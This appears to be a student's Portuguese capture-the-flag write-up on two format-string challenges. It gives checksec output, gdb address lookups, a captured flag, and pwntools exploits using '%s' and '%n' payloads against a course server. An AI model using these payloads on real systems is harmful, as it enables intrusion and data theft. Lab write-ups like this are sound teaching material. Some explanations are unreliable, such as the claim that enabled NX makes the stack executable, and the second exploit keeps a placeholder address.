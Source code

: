 # CTF 6

## Desafio #1

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 81 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  2
  FILE: program
```

Podemos concluir que:
+ Há um *canary* a prevenir injeção de código detectando modificações à stack
+ A *stack* tem permissão de execução (NX)
+ As posições do binário não estão randomizadas (PIE)
+ Os *return addresses* não estão protegidos numa stack em separado (SafeStack)

// TODO: Deves concluir quais são as proteções e que tipo de ataques é possível fazer.
### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

A vulnerabilidade permite fazer consultar o valor variável flag.

### Qual é a funcionalidade que te permite obter a flag?

A funcionalidade que nos permite obter a flag é o %s do printf. 

### Endereço de memória da flag

```
[11/24/21]seed@VM:~/CTF/6$ gdb program
Reading symbols from program...
(...)
gdb-peda$ b load_flag
Breakpoint 1 at 0x8049256: file main.c, line 8.
gdb-peda$ run
(...)
Breakpoint 1, load_flag () at main.c:8
8	void load_flag(){
gdb-peda$ p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
```

O endereço de flag é 0x804c060

### Exploit

```py
#!/usr/bin/env python3
from pwn import *
 
LOCAL = False
 
if LOCAL:
    local = './program'
    p = process(local)
else:
    url = 'ctf-fsi.fe.up.pt'
    port = 4005
    p = remote(url, port)

p.recvuntil(b":")

content = bytearray(0x00 for i in range(32))
val = 0x0804c060
content[0:4] = (val).to_bytes(4, byteorder='little')
content[4:6] = ("%s").encode('latin-1')

p.sendline(content)
p.interactive()
p.recvuntil(b"got:")
p.sendline(b"hi")
p.interactive()
```

FLAG   
 <pre>flag{5fc247063bea425edc863667ac9d09bc}</pre>

## Desafio #2

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 79 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  1
  FILE: program
```

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

A vulnerabilidade permite alterar o valor da variável key.

### A flag é carregada para memória? Ou existe alguma funcionalidade que podemos utilizar para ter acesso à mesma?

A flag não é carregada para memória mas está presente num ficheiro. A funcionalidade que podemos utilizar para ter acesso à mesma será utilizar a key para ativar a backdoor do 
servidor para conseguirmos ler esse ficheiro.

### Para desbloqueares essa funcionalidade o que é que tens de fazer?

Para desbloquearmos esta funcionalidade temos que abusar da vulnerabilidade do *%n* `printf`. 
Como através do `scanf` podemos escrever para a variável buffer, podemos (depois de descobrir 
o endereço da variável key através do gdb) escrever um conteúdo que abusa da vulnerabilidade 
da format string do printf ao fazer `printf(buffer)`. O conteúdo que devemos escrever na 
variável buffer deve conter o tamanho suficiente seguido de *%n* para alterar o valor da 
variável key para o valor necessário (0xbeef) de modo a conseguirmos ativar a backdoor do 
server para ler o ficheiro onde se encontra a flag.

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = True

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = 'ctf-fsi.fe.up.pt'
    port = 4005
    p = remote(url, port)

p.recvuntil(b"...")

content = bytearray(0x00 for i in range(32))
password = 0xbeef

i = 0
pad_str = "%0" + str(password - 2) + "d"        
content[i:i+len(pad_str)] = (pad_str).encode('latin-1')  
i += len(pad_str) 

pad_str2="%d"
content[i:i+len(pad_str2)] = (pad_str2).encode('latin-1')
i += len(pad_str2)

pad_str3="%X"
content[i:i+len(pad_str3)] = (pad_str3).encode('latin-1')
i += len(pad_str3)

val = 0xBBBBBBBB
content[12:16] = (val).to_bytes(4, byteorder='little')

p.sendline(content)                                                   
#p.recvuntil(b"You gave")
p.interactive()  
```
